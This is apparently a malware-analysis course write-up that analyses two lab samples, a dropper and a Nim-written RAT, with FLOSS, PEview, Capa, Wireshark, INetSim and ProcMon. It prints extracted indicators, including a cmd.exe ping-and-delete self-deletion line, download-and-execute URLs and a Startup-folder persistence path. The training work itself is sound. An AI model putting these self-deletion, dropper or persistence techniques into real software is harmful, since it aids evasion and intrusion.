

- Do not download these samples to a computer you do not own.
- Do not execute any of these samples on a computer you do not own.
- Do not download and/or execute these samples in an environment where you cannot revert to a saved state, i.e. a virtual machine.
- Practice safe malware handling procedures at all times when using these samples.


# Static Malware Analysis

Basic static analysis involves examining malware without executing it, using a variety of tools and techniques:

- **Hashing Malware Samples:** Generate unique identifiers for files to track and compare them.

    For example, on Linux you can use:
    ```bash
    sha256sum malware.exe
    md5sum malware.exe
    ```
    On Windows (PowerShell):
    ```powershell
    Get-FileHash malware.exe -Algorithm SHA256
    Get-FileHash malware.exe -Algorithm MD5
    ```


- **Malware Repositories (e.g., VirusTotal):** Submit and analyze samples using online databases for threat intelligence.
- **Strings & FLOSS:** Extract readable strings from binaries to uncover clues about functionality, commands, or embedded URLs.

!!! tip
    FLOSS can be run with the "-n" argument to specify your desired minimum string length. Sometimes, longer strings can be more useful to an analyst than your standard string of len(4).

    For example, to pull all strings of length 6 or greater:
    ```
    floss.exe -n 6 [malware_name.exe]
    ```


- **Import Address Table (IAT) Analysis:** Review imported functions to infer capabilities and behaviors.

    PEview is a lightweight Windows tool used to inspect the internal structure of PE (Portable Executable) files. It allows analysts to view headers, sections, and the Import Address Table, making it easier to identify which Windows API functions a binary imports and potentially uses during execution.



- **Windows API Introduction:** Understand how malware interacts with the operating system through API calls.
- **MalAPI.io:** Use online resources to look up Windows API functions and their security implications. ([malapi.io](https://malapi.io/))
- **Packed Malware Analysis:** Identify if a sample is packed or obfuscated, which can hide its true behavior.
- **Combining Methods (e.g., PEStudio):** Use multiple static analysis tools for a comprehensive overview.




- **MITRE ATT&CK Mapping:** Relate discovered capabilities to known adversary techniques for better context.

## Malware.Unknown.exe

| Analysis Step                | Details |
|-----------------------------|---------|
| **File Hash & VT Analysis**  | 92730427321a14ccfc0d0580834daef98121efa9bb8963da332bfd6cf1fda8a  (*Malware.Unknown.exe.malz*)<br>1d8562c0adcace734d63f7baaca02f7c  (*Malware.Unknown.exe.malz*)<br>VT Analysis: No results |
| **Strings & Floss Output**   | **FLOSS static Unicode strings:**<br>- jjjj<br>- cmd.exe /C ping 1.1.1.1 -n 1 -w 3000 > Nul & Del /f /q "%s"<br>- [http]://ssl-6582datamanager[.]helpdeskbros[.]local/favicon.ico<br>- C:\Users\Public\Documents\CR433101.dat.exe<br>- Mozilla/5.0<br>- [http]://huskyhacks[.]dev<br>- ping 1.1.1.1 -n 1 -w 3000 > Nul & C:\Users\Public\Documents\CR433101.dat.exe<br>- open |
| **IAT & PEView**             | **Window API Calls:**<br>- DownloadFromURL<br>- InternetOpenURLA<br>- ShellExec |

---

### About the Sample

The sample analyzed here, `Malware.Unknown.exe.malz`, is provided as part of the PMAT-labs at `labs/1-1.BasicStaticAnalysis/Malware.Unknown.exe.malz/Malware.Unknown.exe.7z`. Our goal during basic static analysis is to triage threats quickly and accurately by correlating static indicators.

### Introducing Capa

To further assist in this phase, we can use a tool called [Capa](https://github.com/mandiant/capa). Capa detects malicious capabilities in suspicious programs by matching technical indicators (like API calls or strings) against a set of high-level, human-readable rules. For example, Capa can identify if a binary is capable of "receiving data" or "connecting to a URL" by analyzing its features and matching them to rules.

- Capa comes with a default rule set and an open-source repository of community-contributed rules: [capa-rules](https://github.com/mandiant/capa-rules).
- To use Capa, run `capa -h` to see the usage menu and available options.
- Example usage: `capa Malware.Unknown.exe.malz`

Capa's output provides both technical details (like hashes) and high-level information, including mappings to MITRE ATT&CK tactics and techniques.

### What is MITRE ATT&CK?

[MITRE ATT&CK](https://attack.mitre.org/) is a widely adopted framework that classifies adversary tactics, techniques, and procedures (TTPs). It helps analysts understand and communicate about the types of actions adversaries take, such as gaining initial access (TA0001 - Initial Access) or executing code. The framework is an industry standard for threat intelligence and incident response.

## Malware Sample Sources

References:

- PMAT Labs: [https://github.com/HuskyHacks/PMAT-labs](https://github.com/HuskyHacks/PMAT-labs)
- theZoo: [https://github.com/ytisf/theZoo](https://github.com/ytisf/theZoo)
- vx-underground main site: [https://www.vx-underground.org/](https://www.vx-underground.org/)
- vx-underground GitHub repo: [https://github.com/vxunderground/MalwareSourceCode](https://github.com/vxunderground/MalwareSourceCode)
- Zeltser Resources: [https://zeltser.com/malware-sample-sources/](https://zeltser.com/malware-sample-sources/)
- MalwareBazaar: [https://bazaar.abuse.ch/](https://bazaar.abuse.ch/)


## Step-by-Step Static Analysis Workflow

Follow these steps to perform basic static analysis on a malware sample:

1. **Hash the Sample**
   - Generate file hashes (SHA256, MD5) to uniquely identify and track the sample.
   - Tools: `sha256sum`, `md5sum` (Linux), `Get-FileHash` (Windows PowerShell)

2. **Check Online Repositories**
   - Submit the hash or sample to services like VirusTotal for threat intelligence and prior analysis.
   - Tools: VirusTotal

3. **Extract Strings**
   - Use FLOSS or the `strings` utility to extract readable strings, looking for URLs, file paths, commands, or suspicious keywords.
   - Tools: FLOSS, `strings`

4. **Analyze Import Address Table (IAT)**
   - Inspect the binary’s IAT to identify imported Windows API functions and infer capabilities.
   - Tools: PEview

5. **Research API Functions**
   - Look up suspicious or unfamiliar API calls to understand their purpose and potential risks.
   - Tools: MalAPI.io

6. **Detect Malicious Capabilities**
   - Use Capa to automatically identify high-level malicious behaviors and map them to MITRE ATT&CK techniques.
   - Tools: Capa

7. **Check for Packing/Obfuscation**
   - Determine if the sample is packed or obfuscated, which may hide its true behavior.
   - In PEview, compare the Image Section Header’s Virtual Size and Raw Data Size:
     - If the Virtual Size is much larger than the Raw Data Size, this may indicate packing or obfuscation.
     - Packed samples often have a small Raw Data Size but a large Virtual Size, as the unpacked code is loaded into memory at runtime.
   - Tools: PEview, PEStudio

8. **Map to MITRE ATT&CK**
   - Relate discovered capabilities and indicators to MITRE ATT&CK techniques for context.

9. **Document Findings**
   - Record all indicators, hashes, strings, API calls, packing status, and analysis results for reference in dynamic analysis.

# Dynamic (Heuristic) Malware Analysis



At the start of dynamic malware analysis, the focus is on observing two main types of indicators: host-based and network-based. Host indicators involve changes or actions on the local system, such as file deletion or persistence mechanisms, while network indicators involve activity visible on the network, like calling out to domains or downloading files. It doesn't matter which type you examine first, as long as both are covered thoroughly. By monitoring both host and network behaviors when detonating malware, you gain valuable insights that will inform deeper analysis in later phases.

First thing to think about is that we have a certain amount of notes now, and we should let this inform how we perform our basic dynamic analysis. In other words, from the strings that we pulled out, we already have a bead on a couple of potential indicators, host and network indicators. So we'll be on the lookout for things like this, and I'll show you exactly how to apply that and what to look for here in a moment. But the other thing that we have to worry about is making sure that our tools are up and ready to go as far as the detonation of this malware is concerned. So I want to start by doing something here. If we don't have all of our tools up and running, let's say we arm this piece of malware, and we say, all right, it's time to see what this does, and we double-click, and we get a command prompt window briefly, and then the malware disappears. And so what just happened? Well, we're not totally sure, right? Because we didn't have all of our tools up and running and ready to go. Now, one thing that this malware does is that it reaches out to a domain and tries to see if it's online. And in a sandbox without an internet connection, there's not going to be any domain for the malware to contact. And the second part of the logic of this malware says, hey, if you don't find a domain there, go ahead and exit out of the program and delete yourself from disk. And so that can be very detrimental to our analysis, because what if that was the only copy of that sample that we had on hand? Now we've got to go track down the sample again. So it's important to make sure that all of our tools are up and running and ready to go.

Before starting dynamic analysis, ensure your REMnux box is running `INetSim` to simulate internet services and is set as your network's DNS server. Start Wireshark with `sudo wireshark`, select your main network adapter, and begin capturing packets. Test the setup by browsing to a site like google.com or a test domain (e.g., http://freet-shirts.info) to confirm that INetSim is serving responses and network traffic is being captured. This step verifies that your simulated internet environment and monitoring tools are working before proceeding with malware detonation and analysis.

Now, moving from basic static to basic dynamic analysis, the next step is to remove the `.malz` extension from the sample and convert it to an executable format. Using the notes and indicators gathered from the static analysis (see the table above), we can focus on both host-based and network-based indicators during execution. For example, the URL `ssl-6582datamanager.helpdeskbros.local/favicon.ico` found in the strings is a potential network indicator. In Wireshark, we can use display filters like `http.request.uri contains "favicon.ico"` to monitor for related network activity when the malware is detonated. This approach allows us to directly correlate static findings with dynamic network behavior as we analyze the sample in real time.

In Wireshark, we examine the captured traffic and look under the Hypertext Transfer Protocol header to see the details of the request. We observe a GET request for favicon.ico, with the user agent matching what was found in the static strings output. The full URI in the packet matches the indicator we identified earlier. This confirms a strong correlation between static and dynamic analysis: the string extracted from the binary is seen as actual network activity when the malware runs. Capturing and documenting this packet provides clear evidence of the malware's network behavior and helps build a set of network signatures for further analysis.




## Host-Based Indicators with ProcMon

Now, let's pivot to host-based indicators. One of the primary tools for this is ProcMon from the Sysinternals suite. ProcMon provides detailed, real-time monitoring of process activity, including file, registry, and network operations.

- Launch ProcMon and accept the EULA.
- Use the filter icon to set criteria:
    - Filter by `Process Name` set to the malware’s filename (e.g., `malware.unknown.exe`).
    - Optionally, filter by `Operation` (e.g., contains "File") to focus on file-related events.
- Detonate the malware and observe events in ProcMon:
    - Key columns: Process Name, Process ID, Operation, Path.
    - Look for file creation events, especially those matching paths found during static analysis (e.g., `C:\Users\Public\Documents\CR433101.dat.exe`).
- Confirm indicators by checking the file system for newly created files.
- Test persistence by deleting the file and re-running the malware to see if it is recreated.



### Correlating Network and Host-Based Indicators

When analyzing dynamic behavior, observe both the network activity and resulting changes on the host:

- The malware reaches out to a specific URI (e.g., requesting `favicon.ico`), and creates a file on the system—often on the Desktop or in a user directory.
- In a simulated environment like INetSim, requests to non-existent domains (e.g., `doesntexist.com/evil.exe`) will return a default INetSim binary, not the actual intended payload.
- This behavior suggests the malware may function as a dropper, attempting to download and save a second-stage payload from a remote address.
- The use of `favicon.ico` is a common technique, as browsers automatically request this file when visiting a site. Adversaries may abuse this to deliver payloads or mask malicious activity.
- If a file is written to disk after such a request, it is reasonable to hypothesize that the downloaded content (e.g., `favicon.ico`) could be the intended payload.
- Without access to the real remote resource, the actual payload cannot be confirmed, but the correlation between the network request and file creation is a strong indicator of dropper behavior.

### Host-Based Indicators (Part 2): Self-Deletion Logic

Some malware samples include a self-deletion mechanism as a kill switch. In this case, if INETSim is not running when the malware is executed, the sample deletes itself from disk. This behavior can be confirmed and analyzed using ProcMon:

- The malware uses a command involving `cmd.exe`, a ping command, and a delete operation (e.g., `cmd.exe /C ping ... & Del /f /q "malware.exe"`).
- Extract this command from the static strings and use it as a filter in ProcMon (Details contains the command, Process Name is the malware filename).
- Detonate the malware with INETSim running: the sample executes normally and does not delete itself.
- Stop INETSim and detonate again: the malware triggers its self-deletion logic, visible in ProcMon as a call to `cmd.exe` and a file deletion event.
- This logic acts as a kill switch—if the malware cannot reach its intended URL, it exits and removes itself from the system.

This technique helps adversaries avoid detection and analysis if their command-and-control infrastructure is offline.



### Program Execution Flow (Summary)

Based on the observed behavior and limited reverse engineering, the malware’s logic can be summarized as follows:

- **If the target URL exists (e.g., `helpdeskbros.local/favicon.ico`):**
  - Download `favicon.ico`.
  - Write the downloaded file to disk as `CR433101.dat.exe`.
  - Execute `CR433101.dat.exe`.

- **If the target URL does not exist:**
  - Do not download or write any file.
  - Delete itself from disk.
  - Do not execute further.

This flow demonstrates how the malware uses network connectivity as a trigger for its actions, either deploying a second-stage payload or activating a self-deletion kill switch.

## Malware.Unknown.exe: Combined Static and Dynamic Analysis Report

| Analysis Step                | Details |
|-----------------------------|---------|
| **File Hash & VT Analysis**  | 92730427321a14ccfc0d0580834daef98121efa9bb8963da332bfd6cf1fda8a  (*Malware.Unknown.exe.malz*)<br>1d8562c0adcace734d63f7baaca02f7c  (*Malware.Unknown.exe.malz*)<br>VT Analysis: No results |
| **Strings & Floss Output**   | **FLOSS static Unicode strings:**<br>- jjjj<br>- cmd.exe /C ping 1.1.1.1 -n 1 -w 3000 > Nul & Del /f /q "%s"<br>- [http]://ssl-6582datamanager[.]helpdeskbros[.]local/favicon.ico<br>- C:\Users\Public\Documents\CR433101.dat.exe<br>- Mozilla/5.0<br>- [http]://huskyhacks[.]dev<br>- ping 1.1.1.1 -n 1 -w 3000 > Nul & C:\Users\Public\Documents\CR433101.dat.exe<br>- open |
| **IAT & PEView**             | **Window API Calls:**<br>- DownloadFromURL<br>- InternetOpenURLA<br>- ShellExec |
| **Capa Capabilities**        | Detected capabilities: Download files, Execute files, Network communication, Self-deletion (mapped to MITRE ATT&CK techniques) |
| **Packing/Obfuscation**      | Compared Virtual Size and Raw Data Size in PEview:<br>- No significant difference (not packed)<br>or<br>- Large difference (likely packed/obfuscated) |
| **MITRE ATT&CK Mapping**     | Initial Access, Execution, Defense Evasion (self-deletion), Command and Control (network requests) |

---

### Dynamic Analysis

| Indicator Type   | Details |
|------------------|---------|
| **Network**      | Malware attempts to reach `helpdeskbros.local/favicon.ico`.<br>If successful, downloads and writes `CR433101.dat.exe`.<br>Observed in Wireshark using filter `http.request.uri contains "favicon.ico"`.<br> |
| **Host**         | File creation: `C:\Users\Public\Documents\CR433101.dat.exe`.<br>Confirmed in ProcMon.<br> |
| **Self-Deletion**| If INetSim is not running, malware deletes itself from disk.<br>Observed as a call to `cmd.exe` and file deletion event in ProcMon.<br> |

---

### Program Execution Flow

- If the target URL exists:
  - Download `favicon.ico`
  - Write to disk as `CR433101.dat.exe`
  - Execute the file
- If the target URL does not exist:
  - Do not download or write any file
  - Delete itself from disk
  - Do not execute further

# Basic Dynamic Analysis: `rat.unknown.exe.mals`

This section documents the analysis of the new sample, `rat.unknown.exe.mals`, located in the Basic Dynamic Analysis directory. The IR team suspects command execution capability and requests identification of network and host-based signatures, as well as any other notable findings.

## Initial Artifacts

| Artifact Type | Details |
|---------------|--------|
| **MD5 Hash**      | 689FF2C6F94E31ABBA1DDEBF68BE810E |
| **SHA-1 Hash**    | 69B8ECF6B7CDE185DAED76D66100B6A31FD1A668 |
| **SHA-256 Hash**  | 248D491F89A10EC3289EC4CA448B19384464329C442BAC395F680C4F3A345C8C |
| **Archive Password** | infected |
| **Extraction Method** | 7-zip archive, extracted to desktop |
| **Sample Name**   | rat.unknown.exe.mals |

## Basic Static Artifact Collection

| Step | Tool/Method | Result/Notes |
|------|-------------|--------------|
| Extract readable strings | FLOSS | *(to be filled as analysis progresses)* |
| ...existing steps... | ... | ... |

## rat.unknown.exe.mals

### Strings & FLOSS Output

| Type                | Details |
|---------------------|---------|
| **Network/HTTP Indicators** | Proxy-Authorization: basic, Content-Length, PATCH, PUT, POST, Connection: Keep-Alive, Host, HTTP/1.1, User-Agent, user-agent, SSL support is not available, https, No uri scheme supplied, http://serv1.ec2-102-95-13-2-ubuntu.local |
| **Windows API Calls** | InternetOpenW, InternetOpenUrlW, wininet, MultiByteToWideChar, kernel32, MessageBoxW, user32 |
| **Nim Language/Client** | Nim httpclient/1.0.6, nymhttp client |
| **Command Execution/Strings** | [+] what command can I run for you, [+] online, NO SOUP FOR YOU |
| **File/Path Indicators** | mscordll.exe, msdcorelib.exe, AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup |
| **Other** | Unknown error, intrt explr, tables.nim, iterators.nim |

---

### Raw Interesting Strings (FLOSS Output)

```
@iterators.nim(189, 11) `len(a) == L` the length of the seq changed while iterating over it
@Proxy-Authorization: basic 
@Content-Length: 
@Content-Length
@PATCH
@PUT
@POST
@Connection: Keep-Alive
@Connection
@Host: 
@ HTTP/1.1
@User-Agent
@user-agent
@tables.nim(1103, 13) `len(t) == L` the length of the table changed while iterating over it
@SSL support is not available. Cannot connect over SSL. Compile with -d:ssl to enable.
@https
@No uri scheme supplied.
InternetOpenW
InternetOpenUrlW
@wininet
@wininet
MultiByteToWideChar
@kernel32
@kernel32
MessageBoxW
@user32
@user32
@[+] what command can I run for you
@[+] online
@NO SOUP FOR YOU
@\mscordll.exe
@Nim httpclient/1.0.6
@/msdcorelib.exe
@AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
@intrt explr
@http://serv1.ec2-102-95-13-2-ubuntu.local
Unknown error
```


## Dynamic Analysis: rat.unknown.exe.mals

### Initial Detonation & Triage

| Step                      | Observation/Indicator                | Evidence |
|---------------------------|--------------------------------------|----------|
| Initial execution         | Message box appears: "NO SOUP FOR YOU" |  |

- Upon double-clicking the executable (after renaming), the malware displays a message box with the text "NO SOUP FOR YOU".
- This is a clear host-based indicator and may be used for further behavioral correlation.




---

### Network-Based Indicators

| Step                | Observation/Indicator |
|---------------------|----------------------|
| Network activity    | GET request to `http://serv1.ec2-102-95-13-2-ubuntu.local/msdcorelib.exe` |
| User-Agent string   | `intrt explr` in HTTP request |
| Host header         | `serv1.ec2-102-95-13-2-ubuntu.local` |
| Second stage payload| GET request for `msdcorelib.exe` (possible additional capability) |

- After detonation, with INetSim and Wireshark running, the malware initiates a TCP handshake and sends an HTTP GET request to a suspicious URI.
- The request includes a unique user agent string: `intrt explr`.
- The Host header is set to `serv1.ec2-102-95-13-2-ubuntu.local`.
- The GET request for `msdcorelib.exe` may indicate an attempt to download a second stage payload.



---

### Potential File Download & Name Decoupling

During dynamic analysis, following the HTTP stream in Wireshark reveals a GET request for `msdcorelib.exe` to the remote resource `serv1.ec2-102-95-13-2-ubuntu.local`. INetSim responds with its default binary, indicating a successful transaction and potential file download.

It is important to note that malware often employs a tactic known as name decoupling or dechaining: the file downloaded from a web resource may be written to disk under a different name. This technique helps adversaries evade detection and complicates analysis, as the downloaded data and the file system artifact may not share the same name. Analysts should always verify the actual file written to disk and not assume it matches the name in the network request.

This behavior suggests the malware may be attempting to download a second stage payload or additional capability, and the actual file name on disk should be investigated further.

---

### Host-Based Indicators & Persistence Mechanism

After detonation and network analysis, we pivot to host-based indicators using ProcMon. By filtering for file operations and the startup directory path, we observe the following:

- The malware writes a file named `mscoredll.exe` to the user's startup directory: `AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`.
- The file name on disk (`mscoredll.exe`) is different from the name in the network request (`msdcorelib.exe`), demonstrating the name decoupling tactic.
- Writing to the startup directory is a classic persistence mechanism, ensuring the binary will execute upon user login.
- The actual file written is the INetSim default binary, confirming a successful download and write operation.
- The malware dynamically determines the user profile path, so the full path will reflect the current user (e.g., `C:\Users\<username>\AppData\...`).

- Web request to a remote server for a payload.
- Downloaded executable written to disk under a different name in the startup directory.
- Persistence achieved via startup folder placement.
- All actions contingent on a working internet connection; otherwise, an error message is displayed.

